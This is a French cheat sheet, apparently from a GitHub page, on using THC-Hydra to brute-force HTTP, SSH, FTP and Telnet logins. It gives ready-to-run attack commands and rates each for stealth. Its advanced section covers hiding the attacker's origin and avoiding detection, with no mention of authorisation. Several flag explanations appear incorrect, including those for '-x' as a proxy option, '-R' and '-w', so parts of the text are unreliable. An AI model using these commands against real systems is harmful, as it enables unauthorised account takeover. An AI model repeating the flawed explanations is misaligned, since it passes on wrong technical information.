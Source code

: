 # 😁 HYDRA

#### Introduction

Hydra (ou THC-Hydra) est un outil open-source utilisé pour effectuer des attaques par force brute sur divers protocoles de connexion. Il est capable de tester des millions de combinaisons de mots de passe pour trouver les informations d'authentification correctes.

#### Installation de Hydra

**Sous Debian/Ubuntu**

```bash
sudo apt update
sudo apt install hydra
```

**Sous Windows**

1. **Télécharger Hydra pour Windows** depuis le [site de THC](https://github.com/vanhauser-thc/thc-hydra).
2. **Décompresser le fichier téléchargé** et utiliser les binaires fournis.

#### Commandes de Base

1.  **Lancer une attaque par dictionnaire sur un service HTTP**

    ```bash
    hydra -l <username> -P <password_file> <target> http-get /login
    ```

    * **Explication** : `-l` spécifie un nom d'utilisateur, `-P` indique le fichier contenant les mots de passe, `<target>` est l'adresse IP ou le domaine, et `http-get /login` précise le chemin d'URL où se trouve le formulaire de connexion.
    * **Discrétion** : Faible à moyenne. Les tentatives de connexion peuvent être détectées par des systèmes de surveillance ou des IDS.
2.  **Lancer une attaque par dictionnaire sur un service SSH**

    ```bash
    hydra -l <username> -P <password_file> ssh://<target>
    ```

    * **Explication** : `ssh://<target>` indique que l'attaque cible un service SSH.
    * **Discrétion** : Faible. Les tentatives de connexion SSH peuvent générer des alertes.
3.  **Lancer une attaque par dictionnaire sur un service FTP**

    ```bash
    hydra -l <username> -P <password_file> ftp://<target>
    ```

    * **Explication** : `ftp://<target>` indique que l'attaque cible un service FTP.
    * **Discrétion** : Faible. Les services FTP peuvent détecter les tentatives de connexion répétées.
4.  **Lancer une attaque par dictionnaire avec une liste de noms d'utilisateur**

    ```bash
    hydra -L <user_file> -P <password_file> <target> ssh
    ```

    * **Explication** : `-L` spécifie un fichier contenant plusieurs noms d'utilisateur, tandis que `-P` est le fichier de mots de passe.
    * **Discrétion** : Faible. Les tentatives avec plusieurs noms d'utilisateur peuvent générer plus de trafic réseau.
5.  **Attaque par force brute avec un protocole spécifique (ex: telnet)**

    ```bash
    hydra -L <user_file> -P <password_file> telnet://<target>
    ```

    * **Explication** : Cible un service Telnet avec une liste d'utilisateurs et de mots de passe.
    * **Discrétion** : Faible. Telnet est souvent surveillé pour des tentatives de connexion suspectes.

#### Options Avancées

1.  **Définir un nombre limité de tentatives**

    ```bash
    hydra -l <username> -P <password_file> -t 4 <target> ssh
    ```

    * **Explication** : `-t` définit le nombre de threads simultanés pour les tentatives de connexion. Par exemple, `-t 4` lance quatre threads en parallèle.
    * **Discrétion** : Moyenne à élevée. Moins de threads peuvent réduire le risque d'être détecté par les systèmes de surveillance.
2.  **Utiliser un proxy pour masquer l'origine**

    ```bash
    hydra -l <username> -P <password_file> -e ns <target> ssh -s 22 -x <proxy>
    ```

    * **Explication** : `-x` permet d'utiliser un proxy pour masquer l'origine des requêtes.
    * **Discrétion** : Haute. L'utilisation d'un proxy peut rendre l'attaque plus difficile à tracer jusqu'à son origine.
3.  **Limiter le nombre de tentatives par IP**

    ```bash
    hydra -l <username> -P <password_file> -R -e ns <target> ssh
    ```

    * **Explication** : `-R` active la limitation du nombre de tentatives pour éviter d'être bloqué par des mécanismes de défense.
    * **Discrétion** : Moyenne à élevée. Limite le nombre de tentatives pour réduire la détection.
4.  **Ajouter des délais entre les tentatives**

    ```bash
    hydra -l <username> -P <password_file> -w 5 <target> ssh
    ```

    * **Explication** : `-w` définit le délai en secondes entre chaque tentative pour éviter de générer une charge excessive et attirer l'attention.
    * **Discrétion** : Haute. Les délais réduisent le nombre de requêtes envoyées en un temps donné.
5.  **Utiliser une liste de mots de passe alternatifs**

    ```bash
    hydra -l <username> -P <password_file> -p <password> <target> ssh
    ```

    * **Explication** : `-p` permet d'ajouter un mot de passe spécifique en plus de ceux de la liste.
    * **Discrétion** : Moyenne à haute. Tester des mots de passe spécifiques peut augmenter les chances de succès tout en maintenant une discrétion accrue.

#### Exemples de Scénarios

1.  **Attaque sur un service HTTP avec un dictionnaire de mots de passe**

    ```bash
    hydra -l admin -P /path/to/passwords.txt http-get://192.168.1.10/login
    ```

    * **Explication** : Teste les mots de passe dans `/path/to/passwords.txt` pour l'utilisateur `admin` sur le service HTTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les attaques HTTP peuvent être détectées par les systèmes de journalisation des serveurs web.
2.  **Attaque sur un service FTP avec des utilisateurs et des mots de passe**

    ```bash
    hydra -L /path/to/users.txt -P /path/to/passwords.txt ftp://192.168.1.10
    ```

    * **Explication** : Teste toutes les combinaisons d'utilisateurs et de mots de passe pour un service FTP à l'adresse `192.168.1.10`.
    * **Discrétion** : Faible. Les services FTP sont souvent configurés pour détecter les tentatives de connexion brutales.
3.  **Attaque SSH avec un proxy pour masquer l'origine**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -e ns -x socks5://proxyserver:1080 ssh://192.168.1.10
    ```

    * **Explication** : Utilise un proxy SOCKS5 pour masquer l'origine des tentatives de connexion SSH.
    * **Discrétion** : Haute. L'utilisation d'un proxy ajoute une couche de dissimulation.
4.  **Attaque par dictionnaire avec un délai entre les tentatives**

    ```bash
    hydra -l admin -P /path/to/passwords.txt -w 10 -e ns ssh://192.168.1.10
    ```

    * **Explication** : Ajoute un délai de 10 secondes entre chaque tentative de connexion pour réduire la détection.
    * **Discrétion** : Haute. Les délais peuvent éviter de déclencher des alarmes pour des tentatives de connexion rapide.



